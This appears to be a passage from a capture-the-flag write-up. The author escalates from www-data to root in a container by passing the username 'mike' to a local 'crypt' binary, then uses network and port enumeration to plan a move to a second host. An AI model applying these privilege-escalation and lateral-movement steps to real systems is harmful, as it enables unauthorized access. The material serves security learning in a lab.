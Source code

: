 `Unable to decompress.`?

After enumerate much deeper, I found that **we can supply `mike` as an username to escalate to root!**

```
www-data@host1:/usr/share/man/zh_TW$ ./crypt mike
░█████╗░██████╗░██╗░░░██╗██████╗░████████╗░██████╗██╗░░██╗███████╗██╗░░░░░██╗░░░░░
██╔══██╗██╔══██╗╚██╗░██╔╝██╔══██╗╚══██╔══╝██╔════╝██║░░██║██╔════╝██║░░░░░██║░░░░░
██║░░╚═╝██████╔╝░╚████╔╝░██████╔╝░░░██║░░░╚█████╗░███████║█████╗░░██║░░░░░██║░░░░░
██║░░██╗██╔══██╗░░╚██╔╝░░██╔═══╝░░░░██║░░░░╚═══██╗██╔══██║██╔══╝░░██║░░░░░██║░░░░░
╚█████╔╝██║░░██║░░░██║░░░██║░░░░░░░░██║░░░██████╔╝██║░░██║███████╗███████╗███████╗
░╚════╝░╚═╝░░╚═╝░░░╚═╝░░░╚═╝░░░░░░░░╚═╝░░░╚═════╝░╚═╝░░╚═╝╚══════╝╚══════╝╚══════╝

root@host1:/usr/share/man/zh_TW# whoami;hostname;id;ip a
whoami;hostname;id;ip a
root
host1
uid=0(root) gid=33(www-data) groups=33(www-data)
[...]
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:9c:ff:0f brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 192.168.250.10/24 brd 192.168.250.255 scope global dynamic eth0
       valid_lft 2669sec preferred_lft 2669sec
    inet6 fe80::216:3eff:fe9c:ff0f/64 scope link 
       valid_lft forever preferred_lft forever
7: eth1@if8: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether 00:16:3e:46:6b:29 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.16.20.2/24 brd 172.16.20.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::216:3eff:fe46:6b29/64 scope link 
       valid_lft forever preferred_lft forever
```

And I'm root in this container!

### Container host1 root to container host2 mike

In the `netstat` output, I saw **there is a SSH port opened, but not inside the container.**

```
root@host1:/usr/share/man/zh_TW# netstat -tunlp
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      140/systemd-resolve 
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      212/sshd            
tcp6       0      0 :::22                   :::*                    LISTEN      212/sshd            
tcp6       0      0 :::80                   :::*                    LISTEN      262/apache2         
udp        0      0 127.0.0.53:53           0.0.0.0:*                           140/systemd-resolve 
udp        0      0 192.168.250.10:68       0.0.0.0:*                           138/systemd-network
```
